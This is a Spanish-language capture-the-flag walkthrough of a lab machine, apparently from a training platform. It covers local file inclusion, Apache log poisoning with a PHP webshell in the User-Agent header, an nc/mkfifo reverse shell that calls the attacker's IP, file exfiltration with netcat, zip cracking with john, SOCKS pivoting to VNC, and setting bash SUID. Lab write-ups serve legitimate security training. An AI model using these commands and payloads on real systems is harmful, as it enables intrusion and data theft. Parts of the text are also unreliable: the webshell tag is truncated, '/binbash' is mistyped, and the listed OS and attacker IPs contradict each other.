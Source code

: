 ## Summary

- IP -> 10.10.10.84
- Ports -> TCP (22, 80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.2
    - 80 -> Apache httpd 2.4.29


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
Que es FreeBSD: Es un sistema de codigo abierto para computadoras basado en las CPU de arquitectura x86, Pentium. En la actualidad se ejecuta en once arquitectiras distintas como Alpha, AMD64, IA-64, MISP, PowerPC y UltraSPARC.

Buscamos en la Webpage:

Podemos ponerle al **listfile.php** -> Encontramos un **pwdbackup.txt** que al momento de ponerlo, nos da un passwd encodeada 13 veces en base64 por lo que podemos ver.
- Comando -> **curl -s -X GET "http://10.10.10.84/browse.php?file=pwdbackup.txt" | grep -v "password" | tr -d '\\n' | base64 -d | base64 -d** Miramos las cabeceras de la pagina web (tr=quitamos el salto de linea), hacerlo 13 veces la decode de base 64

Hasta que nos de la passwd.

Si no esta sanitizado podemos hacer un Local File Inclution (LFI) en la Webpage
http://10.10.10.84/browse.php?file=/etc/passwd Y cargamos el archivo passwd de la maquina y ahi podremos ver los usuarios existentes. Por lo que encontramos a charix



----------------
Otra Forma de hacer la maquina es cuando tenemos un LFI y podemos ejecutar comandos Ejecucion Remota de Comandos (RCE) , ahi podemos hacer un Log Poisoning y apuntar a archivos Logs.

Buscamos en Google Freebsd Apache /var/log file 
En FreeBSD la ruta es diferente:
	**/var/log/httpd-access.log** Para ver los log en la Webpage, esto se colocara despues del = de la url de arriba.
	http://10.10.10.84/browse.php?file=/var/log/httpd-access.log  De esta manera...

Ahora nos abrimos el BurpSuite. Para poder capturar la peticion de la url http://10.10.10.84/rce
Una vez dentro de BuroSuite, lo capturamos con la finalidad de que podamos ver el:

Y lo modificaremos en el Repeater
- User-Agent: Mozilla/5.0 ...

En donde ahi podremos borrar el contenido del User-Agent y colocar codigo php para hacer el envenenamiento (Poisoning)
El codigo php inicia ?php
- User-agent: <?p system($_GET['cmd']);  ?>

Ahora en el BurpSuite le damos en el boton Send del Repeater

Y lo que buscaremos injectando el codigo php es que cuando modifiquemos la url de esta manera:
http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=whoami
Nos pueda interpretar los comandos que querramos

Sin desactivar el FoxyProxy de la web, nos ponemos a colocar firenetes comandos:
	whoami
	hostname
	ifconfig
	which nc

Quitamos el FoxyProxy de la web 
Ahora nos ponemos en escucha por el puerto 443 del netcat ya que confirmamos que lo tiene. 
- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux

Buscamos en Google 'Monkey pnetester reverse shell' y nos da una linea que debemos de poner en la url de la web para netcat, debe ser la segunda linea que encontremos en la pagina, ya que no sabemos si el netcat es antiguo o no.

- http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 443 >/tmp/f
	Colocamos nuestra ip en ese comando y el puerto del netcat 
	Debemos de modificar el **&** y pasarlo a formato url-encode que es **%26**

Y este nos da el usuario www


---


## User
Ahora nos conectamos por SSH:
- Comando -> **ssh < user>@< IP>** Para conectarnos por ssh

Podemos ver la primer flag user.txt

- Comando -> **ls -l** Miramos el contenido del directorio y sus permisos (l=ele)
- Comando -> **nc -nlvp 443 > secret.zip** Nos ponemos en escucha por el puerto 443 en nuestra maquina de atacante, maquinas Linux y lo que recibamos lo colocamos en el archivo secret.zip

- Comando -> **nc 10.10.17.4 443 < secret.zip** En la maquina victima hacemos esto para mandar el arhivo que hemos encontrado a la maquina de atacante.

- Comando -> **7z l secret.zip** (l=ele) Podemos ver el contenido interno del archivo zip, gz, bzip2, etc...
- Comando -> **7z x secret.zip** (l=ele) Podemos extraer el contenido interno del archivo zip, gz, bzip2, etc...

Como nos pide una passwd. Podemos usar la herramienta John para que primero nos de un Hash y despues crackear y obtener su passwd.

- Comando -> **zip2john secret.zip > hash** Para que nos devielva el Hash y asi despues poderlo crackear y el resultado del hash lo metemos a un archivo llamado 'hash'.
- Comando -> **john -w:/usr/share/wordlists/rockyou.txt hash** Aplicamos un ataque de fuerza bruta a un archivo hash y como resultado no lo ha encontrado

Recordamos que tenemos una passwd y la colocamos para ver si es la misma. 

Una vez descargado el archivo, procedemos a ver le contenido 
- Comando -> **cat secret** Observamos el contenido del archivo, y miramos cosas raras.
- Comando -> **xxd secret** Para mirar los magic numbers del archivo

Ponemos en Google 'List of Signatures' para poder ver cual seria el resultado de los magic numbers. Y encontramos que es:
no es nada

Ahora seguiremos listando la maquina:
- Comando -> **netstat -na -p tcp** Podemos ver los puertos abiertos en la mquina 
- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux
Encontramos un **tightvnc**. Esto es una aplicacion informatica de codigo abierto para administracion remota multiplataforma que utiliza el protocolo RFB deVNC para controlar panatlla de otro equipo de forma remota. Y los puerto que comunmente corre es el 5900-5901, 5800-5801

Tenemos el puerto 5901 abierto en la maquina victima, por lo que lo podemos usar para hacer la conexion con el viewer sin usar chisel. 
Ahora usaremos un Dinamic Port Forwarding 

Modificaremos el:
**nvim /etc/proxychains.conf** Modificaremo este archivo en nuestra maquina
	socks4 127.0.0.1 1080 -> Haremos que la conexion para nuestra maquina se efectue en el puerto 1080


## Root
- Comando -> **ssh < user>@< IP> -D 1080** Para conectarnos por ssh (D=Dinamic Port Forwarding) y colocamos el puerto que anteriormente habiamos configurado y le colocamos la passwd que teniamos de Charix
- Comando -> **proxychains vncviewer -passwd secret 127.0.0.1:5901** Nos permite conectarnos al vncviewer de una maquina remotamente
	passwd -> Archivo qiue habiamos encontrado con las passwd llamado secret

Podremos visualizar la flag root.txt

Ademas podemos darle privilegios al usuario Charix para que desde la conexion que ya tenemos por ssh podamos convertirnos en root. 
- Comando -> **chmod u+s /bin/bash** Para darle privilegios a la bash suid en este caso desde la interfaz remota
- Comando -> **ls -l /bin/bash** Miramos los privilegios de la bash en el usuario Charix
- Comando -> **/binbash** Colocamos ese comando en el usuario Charix y ya seriamos root
